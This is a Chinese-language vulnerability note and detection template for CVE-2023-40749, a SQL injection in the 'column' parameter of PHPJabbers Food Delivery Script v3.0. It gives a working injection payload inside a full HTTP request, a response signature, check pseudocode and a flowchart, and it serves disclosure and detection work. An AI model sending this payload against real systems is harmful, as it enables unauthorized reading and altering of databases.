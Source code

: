 # PHPJabbers Food Delivery Script v3.0 SQL 注入漏洞（CVE-2023-40749）

## 漏洞简介
PHPJabbers Food Delivery Script v3.0 存在 SQL 注入漏洞，攻击者可通过 `index.php` 文件的 `column` 参数注入恶意 SQL 语句，进而执行任意 SQL 命令，造成敏感信息泄露、数据篡改等严重后果。

## 影响范围
- 受影响产品：PHPJabbers Food Delivery Script v3.0
- CPE: `cpe:2.3:a:phpjabbers:food_delivery_script:3.0:*:*:*:*:*:*:*`

## 漏洞原理
后端未对 `column` 参数进行有效过滤，直接拼接到 SQL 查询语句，导致攻击者可通过构造特殊参数实现 SQL 注入。

## 利用方式与攻击流程
1. 攻击者向 `/index.php` 接口发送带有恶意 `column` 参数的 POST 请求。
2. 通过如 `column=(SELECT (CASE WHEN (4213=4213) THEN 0x63726561746564 ELSE (SELECT 7877 UNION SELECT 7153) END))` 等注入语句，利用响应内容回显注入结果，确认漏洞存在。
3. 若验证成功，攻击者可进一步利用漏洞进行数据窃取、篡改等操作。

## 探测原理与流程
### 请求包示例
```http
POST /index.php?controller=pjAdminOrders&action=pjActionGetNewOrder&column=(SELECT+(CASE+WHEN+(4213=4213)+THEN+0x63726561746564+ELSE+(SELECT+7877+UNION+SELECT+7153)+END))&direction=ASC&page=1&rowCount=50&q=''&type= HTTP/1.1
Host: target.com
Content-Length: 0
```

### 响应示例
```http
HTTP/1.1 200 OK
...
class <strong>pjAdminOrdersaction
...
didn't exists
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中同时包含 `class <strong>pjAdminOrdersaction` 和 `didn't exists`。

### 伪代码
```python
send_post(
    url="/index.php?controller=pjAdminOrders&action=pjActionGetNewOrder&column=(SELECT+(CASE+WHEN+(4213=4213)+THEN+0x63726561746564+ELSE+(SELECT+7877+UNION+SELECT+7153)+END))&direction=ASC&page=1&rowCount=50&q=''&type=",
    data=""
)
if response.status_code == 200 and "class <strong>pjAdminOrdersaction" in response.text and "didn't exists" in response.text:
    print("存在 SQL 注入漏洞")
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[构造注入请求]
    B --> C[发送 POST 请求]
    C --> D{响应状态码是否为 200?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F{响应体是否包含特征关键字?}
    F -- 否 --> E
    F -- 是 --> G[存在 SQL 注入漏洞]
```

## 参考链接
- [漏洞分析与利用](https://medium.com/@tfortinsec/multiple-vulnerabilities-in-phpjabbers-part-3-40fc3565982f)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-40749) 